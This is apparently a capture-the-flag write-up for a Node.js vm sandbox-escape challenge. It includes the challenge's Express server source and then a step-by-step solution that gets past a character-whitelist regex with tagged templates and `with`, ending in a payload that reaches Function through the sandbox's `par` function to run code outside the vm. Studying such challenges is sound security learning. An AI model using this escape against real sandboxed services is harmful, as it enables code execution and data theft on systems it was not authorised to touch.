 ## Owner:

> CaptainFreak

## Challenge Description

```
const express = require("express")
const fs = require("fs")
const vm = require("vm")
const watchdog = require("./watchdog");

global.flag = fs.readFileSync("flag").toString()
const source = fs.readFileSync(__filename).toString()
const help = "There is no help on the way."

const app = express()
const port = 3000

app.use(express.json())
app.use('/', express.static('public'))

app.post('/repl', (req, res) => {
    let sandbox = vm.createContext({par: (v => `(${v})`), source, help})
    let validInput = /^[a-zA-Z0-9 ${}`]+$/g
    
    let command = req.body['cmd']
    
    console.log(`${req.ip}> ${command}`)

    let response;

    try {
        if(validInput.test(command))
        {    
            let watch = watchdog.schedule()
            try {
                response = vm.runInContext(command, sandbox, {
                    timeout: 300,
                    displayErrors: false
                });
            } finally {
                watchdog.stop(watch)
            }
        } else
            throw new Error("Invalid input.")
    } catch(ex)
    {
        response = ex.toString()
    }

    console.log(`${req.ip}< ${response}`)
    res.send(JSON.stringify({"response": response}))
})

console.log(`Listening on :${port}...`)
app.listen(port, '0.0.0.0')
```

#### Solved?

 - No

#### Tried:

Found a way to escape NodeJs vm: https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af. 

Got idea that We can use par.constructor("return flag"). This will eval "return flag" in the context of invoking/parent code as the constructor belongs to that space and will return a function whose body is that string.

So, par.constructor("return flag")() will return flag from parent codes/out of VMs context.

This can be invoked using par.constructor\`return flag\`\`\`

Hence Ended up at payload {"cmd":"par.constructor\`return flag\`\`\`"}. 

Got stuck by one dot. I succesfully used tag notation of function to bypass use of "()" that is prevented by regex check as only speacial chars allowed are alphanumeric, $, {, }, \` 

Could not go further than this. 


#### Solutions:

The challenge was to exlpoit Escame NodeJs vm as well as a regex filter /^[a-zA-Z0-9 ${}\`]+$/g. which disallowes us to use the very useful dot char to access object elements. I tried to find the other way to access properties without using "." but I guess I failed at googling.

Steps to solve the challenge:

1. So we do have a way to access properties without dot.
2. Object.property() in JS is equavalent to with(Object)property()
3. Example: `console.log("flag")` is totally equal to `with(console)log("flag")`
4. But you will say hey we cant use "()" due to regex and this can't even be bypassed using \` as "with" is a JS keyword like "if" and not fucntion :).
5. And then `par` function described in our vm context comes in for the rescue.
6. par(value) function returns "(\`${value}\`)" === (value), where value is executed in it and value is returned with enclosed in "()" which is very convenient for us :).
7. So to make `with(console)log("flag")` out of using "par" we can do "with\`${par\`console\`}log${par\`"flag"\`}\` 

8. Hence, par.constructor("return flag")() is equal to with(par)constructor("return flag")()
9. which is equal to with(par)constructor\`return flag\`\`\` but we need to remove (), we will use par() given
10. Which then can be made \`with${par\`par\`}constructor\`return flag\`\`\`\`
11. Above thing will make it a string which need to be evaled. eval\`\` wont work, will look into this, 
12. Another way to. execute code `Function`.
13. Function(), which interprests last arg as body of function to make
14. Function\`code\` will return a func with with given code body. Function\`code\`\`\` will execute that function.
15. Lets use this, "Function\`a${\`with${par\`constructor\`}return constructor${par\`a\`}\`}\`\`return flag\`\`\`."
And boom !

## TLDR

![](https://i.ibb.co/3MjF0SY/Untitled-Diagram-1.png)

The payload is equivalent to:

```
Function(a){
	with(par)return constructor(a)
}("return flag")()
```

Really Loved this challenge, Another lesson that in good ctfs, everything is usable.

References:
1. https://twitter.com/po6ix/status/1239169901991849989 - Simpler and crisp.
2. https://st98.github.io/diary/posts/2020-03-15-confidence-2020-ctf.html
This guy even used the help string - Good Read. Kinda overkill.
3. https://twitter.com/po6ix/status/1239167341885149185







